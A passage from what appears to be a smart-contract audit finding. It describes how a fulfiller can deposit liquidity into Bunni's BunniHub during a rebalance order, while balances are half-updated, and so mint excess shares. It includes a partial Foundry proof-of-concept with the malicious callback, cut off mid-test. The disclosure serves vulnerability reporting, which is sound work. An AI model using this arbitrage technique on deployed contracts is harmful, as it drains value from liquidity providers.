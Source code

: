 ```solidity
5)      IERC20(order.consideration.token).safeTransferFrom(fulfiller, order.recipient, amount);

        // Execute post hooks.
6)      order.postHooks.execute();
(...)
    }
```

1. It is checked that the fulfiller address is approved in the `BunniZone` contract.
2. `order.preHooks.execute()` calls the `rebalanceOrderPreHook` function of the `BunniHub` contract. `tokenIn` is transferred from `BunniHub` to `BunniHook` and the balance of `tokenIn` in the pool is updated.
3. `tokenIn` is transferred from `BunniHook` to the fulfiller through the `Permit2` contract.
4. The `sourceConsideration` function is called on the fulfiller contract to get the amount of `tokenOut`.
5. If the amount of `tokenOut` is valid, it is transferred from the fulfiller to the `BunniHub` contract.
6. `order.postHooks.execute()` calls the `rebalanceOrderPostHook` function of the `BunniHub` contract. `tokenOut` is deposited in Uniswap's `PoolManager` and credited to the `BunniHub` contract and the balance of `tokenOut` in the pool is updated.

As we can see, when the `sourceConsideration` function is called on the fulfiller contract (step 4), the decrease in the balance of `tokenIn` has been recorded (step 2). However, at this point, the increase in the balance of `tokenOut` has not yet been recorded, and the slot0s has not yet updated the `lastSwapTimestamp` and `lastSurgeTimestamp` values (step 6).

This means that inside the `sourceConsideration` function, the fulfiller can interact with the `BunniHub` contract when it is in an inconsistent state, being able to arbitrate the temporary discrepancy. The PoC section shows an example of how depositing liquidity before the `tokenOut` is credited in the pool the fulfiller mints more shares than it should.

## Proof of concept

Add the following code to the file `BunniHub.t.sol` and run `forge test --mt test_rebalance_arb -vv`.

```solidity
uint256 deposit0;
uint256 deposit1;

// Implementation of IFulfiller interface
function sourceConsideration(
    bytes28, /* selectorExtension */
    IFloodPlain.Order calldata order,
    address, /* caller */
    bytes calldata data
) external returns (uint256) {
    // deposit liquidity between rebalanceOrderPreHook and rebalanceOrderPostHook
    IBunniHub.DepositParams memory depositParams = abi.decode(data, (IBunniHub.DepositParams));
    (, deposit0, deposit1) = hub.deposit(depositParams);

    return order.consideration.amount;
}

function test_rebalance_arb() external {
    uint256 swapAmount = 1e6;
    uint32 alpha = 359541238;
    uint24 feeMin = 0.3e6;
    uint24 feeMax = 0.5e6;
    uint24 feeQuadraticMultiplier = 1e6;

    MockLDF ldf_ = new MockLDF();
    bytes32 ldfParams = bytes32(abi.encodePacked(ShiftMode.BOTH, int24(-3) * TICK_SPACING, int16(6), alpha));
    ldf_.setMinTick(-30); // minTick of MockLDFs need initialization
```